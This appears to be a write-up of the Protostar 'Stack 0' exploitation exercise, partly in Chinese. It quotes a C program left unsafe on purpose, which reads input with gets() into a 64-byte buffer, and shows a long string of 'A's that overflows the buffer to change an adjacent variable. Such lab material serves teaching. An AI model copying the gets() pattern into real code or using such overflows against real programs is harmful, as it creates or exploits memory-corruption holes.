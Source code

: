 # Protostar: Stack 0

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at `/opt/protostar/bin/stack0`.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
```



## 攻击目标

使程序输出`you have changed the 'modified' variable`。



## 攻击过程

```shell
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa	#64个A
```

<img src=".\stack0-result.png" style="zoom:67%;" />

